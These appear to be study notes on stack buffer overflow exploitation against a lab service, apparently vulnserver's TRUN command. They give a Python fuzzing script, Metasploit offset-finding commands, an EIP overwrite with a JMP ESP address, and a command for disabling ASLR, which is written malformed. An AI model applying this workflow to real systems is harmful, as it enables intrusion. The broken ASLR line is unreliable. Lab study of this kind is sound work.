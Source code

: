 # Buf Overflow

![](../.gitbook/assets/image%20%282%29.png)

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%284%29.png)

{% embed url="https://tcm-sec.com/buffer-overflows-made-easy/" %}

{% embed url="https://github.com/gh0x0st/Buffer\_Overflow" %}

\*\*\*\*

### FUZZING

```text
    #!/usr/bin/python
    
    import sys, socket 
    from time import sleep
    
    buffer = "A" * 100
    
    while True: 
        try: 
            payload = "TRUN /.:/" + buffer
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(('192.168.1.35',9999))
            print ("[+] Sending the payload...\n" + str(len(buffer)))
            s.send((payload.encode()))
            s.close()
            sleep(1)
            buffer = buffer + "A"*100
        except:
            print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
            sys.exit()
```

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l 3000  
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l 3000 -q 386F4337   
where q is EIP value -&gt; we will get offset  
OFFSET = 2003  
buffer = "A" \* 2003 + "B" \* 4  
EIP will be overwritten with 424242.  
  
badchars  
buffer = "A" \* 2003 + "B" \* 4 + badchars  
find out of place chars  
  
0x625011af JMP ESP - FFE4  
buffer = "A" \* 2003 + "\xaf\x11\x50\x62" + overflow

### ASLR \(BuF Attack\)

ps -aux \| grep {process} _pid will be obtained_

cat /proc/2678/maps

echo 0 &gt; cat /proc/sys/kernel/randomize\_va\_space   
Configurations :   
0 - Static   
1 - Dynamic   
2 - Smartly Dynamic







